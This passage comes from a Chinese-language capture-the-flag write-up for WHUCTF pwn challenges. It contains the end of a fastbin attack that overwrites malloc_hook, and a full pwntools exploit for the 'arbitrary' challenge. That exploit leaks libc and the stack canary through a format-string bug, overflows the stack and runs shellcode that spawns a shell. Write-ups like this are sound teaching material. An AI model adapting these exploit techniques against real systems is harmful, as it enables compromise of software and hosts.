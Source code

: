```python
add(0x60)#3
add(0x60)#4

payload = 'a'*(malloc_hook-target_chunk-0x10) + p64(gadget)

edit(4,len(payload),payload)
add(0x8)

io.interactive()
```

> WHUCTF{FFFFFFFFFFFFFFastbin_Attack_5e58440652e52e354ae12af8775bec97}

## arbitrary

`f1()` 输入一个地址实现任意地址写入八字节数，`f2()`有金丝雀的栈溢出。

`f3()` 格式化字符串漏洞，`_printf_chk` 会过滤掉$，得手动调了

输入多个`%p` 找到位置，进而泄露`libc` ，还意外的泄露了canary 

![](https://i.loli.net/2020/06/05/GtqD5RQKXskIujL.png)

![](https://i.loli.net/2020/05/30/fUgqtGKPsBhcaYE.png)

这题被官网write up误导了，read不会产生`\x00`输入截断，直接输入金丝雀就行。本地不知道为什么没打通，不过这题也没啥营养了。

```python
from pwn import *
context.log_level='debug'
r=process('./pwn',aslr = False)
context(arch = 'amd64', os = 'linux', endian = 'little')
libc = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
gdb.attach(r,"b *0x555555554B80")
# C01
def f2(buf):
	r.sendlineafter("choice>>",'2')
	r.sendlineafter("input data:\n",'a'*8)
	r.sendlineafter("input data:\n",buf)

def f3(string):
	r.sendlineafter("choice>>",'3')
	r.sendlineafter("input data:\n",string)

f3(".%p"*10+".")
# 6-ca7 -> elf_base  10-240 __libc_start_main 8 -> canary
for i in range(6):
	r.recvuntil(".")
elf_base = int(r.recvuntil(".",drop=True),16) - 0xca7
r.recvuntil(".")
canary = int(r.recvuntil("0a.",drop=True)+'00',16)
r.recvuntil(".")
__libc_start_main = int(r.recvuntil(".",drop=True),16) - 240
libc_base = __libc_start_main - libc.sym['__libc_start_main']

success("elf_base:"+hex(elf_base))
success("libc_base"+hex(libc_base))
success("canary:"+hex(canary))

f2("b"*0x38+p64(canary)+p64(0x202520+elf_base)+p64(0xC08+elf_base))

f3(asm(shellcraft.sh()))
f2("b"*0x38+p64(canary)+p64(0x202020+elf_base)+p64(0x202060+elf_base))
# 0x202060+elf_base

```
